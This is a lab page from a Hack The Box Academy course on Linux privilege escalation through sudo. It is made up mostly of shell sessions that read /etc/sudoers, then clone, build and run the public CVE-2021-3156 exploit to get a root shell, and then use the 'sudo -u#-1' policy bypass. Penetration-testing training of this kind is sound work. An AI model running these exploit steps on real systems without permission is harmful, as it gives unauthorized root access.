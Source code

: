 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1590
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1590
// Section Title: Sudo
// Page Title: Hack The Box - Academy
// Page Number: 24
-->

# Sudo

**Module Name:** Linux Privilege Escalation **Page Number:** 24

#### 

#### LINUX PRIVILEGE ESCALATION

# Sudo

``` shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

``` shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

``` shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

``` shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

``` shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

``` shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## Sudo Policy Bypass

``` shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

``` shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

``` shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# 

# 

#### Questions

####